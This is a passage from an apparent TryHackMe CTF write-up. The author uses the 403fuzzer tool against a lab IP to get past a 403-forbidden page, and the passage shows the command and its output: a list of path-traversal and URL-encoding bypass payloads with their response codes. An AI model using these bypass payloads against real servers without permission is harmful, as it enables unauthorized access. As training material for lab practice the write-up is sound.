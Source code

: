 ![img](/assets/thm_en-pass/bg_7.jpeg)

i got nothing but thm tell us some hint 

![img](/assets/thm_en-pass/bg_8.jpeg)

now I will check the end point with several possibilities using [403fuzzer](https://github.com/intrudir/403fuzzer) such as X-Forwarded-For, besides this it also applies several different loads which are usually used in travesal dir or what we usually know wfuzz to each endpoint on the path

> Note : This tool will check the endpoint with a couple of headers such as X-Forwarded-For It will also apply different payloads typically used in dir traversals path normalization etc. to each endpoint on the path. e.g. /%2e/test/test2 /test/%2e/test2 /test;/test2/

```
$ python3 403fuzzer.py -u http://10.10.88.227:8001/403.php -hc 403,404
Response Code: 200      Length: 2563    Path: /
Response Code: 200      Length: 2563    Path: /
Response Code: 400      Length: 306     Path: /%2e%2e/403.php
Response Code: 400      Length: 306     Path: /../403.php
Response Code: 200      Length: 2563    Path: /
Response Code: 400      Length: 306     Path: /%2e%2e/403.php
Response Code: 400      Length: 306     Path: /../../../403.php
Response Code: 400      Length: 306     Path: /../..//../403.php
Response Code: 400      Length: 306     Path: /../../403.php
Response Code: 400      Length: 306     Path: /../..;/403.php
Response Code: 400      Length: 306     Path: /.././../403.php
Response Code: 400      Length: 306     Path: /../.;/../403.php
Response Code: 400      Length: 306     Path: /..//../../403.php
Response Code: 400      Length: 306     Path: /..//../403.php
Response Code: 400      Length: 306     Path: /../403.php
Response Code: 400      Length: 306     Path: /../;/../403.php
Response Code: 400      Length: 306     Path: /../;/403.php
Response Code: 400      Length: 306     Path: //../../403.php
Response Code: 400      Length: 306     Path: ///../403.php
Response Code: 200      Length: 2563    Path: /
Response Code: 200      Length: 2563    Path: /403.php%3b/%2e.
Response Code: 200      Length: 2563    Path: /403.php%3b/..
```